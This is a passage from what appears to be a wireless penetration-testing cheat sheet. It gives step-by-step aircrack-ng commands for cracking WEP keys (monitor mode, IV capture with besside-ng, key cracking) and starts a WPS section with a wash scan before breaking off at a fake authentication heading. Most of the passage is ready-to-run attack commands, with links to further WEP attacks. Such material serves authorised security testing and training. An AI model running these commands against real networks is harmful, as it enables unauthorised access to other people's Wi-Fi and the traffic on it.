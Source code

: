 **Crack**

```
aircrack-ng <CAPTURE_NAME>
```

# **WEP (Wired Equivalent Privacy)**

WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:

**Step 1: Kill conflicting processes**

```
sudo airmon-ng check kill
```

**Step 2: Start monitor mode on wlan0**

```
sudo airmon-ng start wlan0
```

**Step 3: Scan for WEP networks**

```
sudo airodump-ng wlan0mon --encrypt WEP
```

**Step 4: Capture IVs**

```
besside-ng -c Channel -b BSSID wlan0mon
```

**Step 5: Crack WEP key**

```
aircrack-ng ./wep.cap
```

**Additional WEP Attacks:**

- [Hirte Attack](https://pentestlab.blog/2015/02/03/hirte-attack/)
- [Caffe Latte Attck](https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html)

# **WPS (Wi-Fi Protected Setup)**

WPS was originally known as Wi-Fi Simple Configuration, aiming to unify vendor technologies for secure WPA/WPA2 passphrase sharing. However, it has its set of vulnerabilities. Below are the steps to identify and exploit WPS vulnerabilities:

**Identifying access points with WPS enabled**

```
wash -i <INTERFACE> -s
```

**Fake authentication attack**
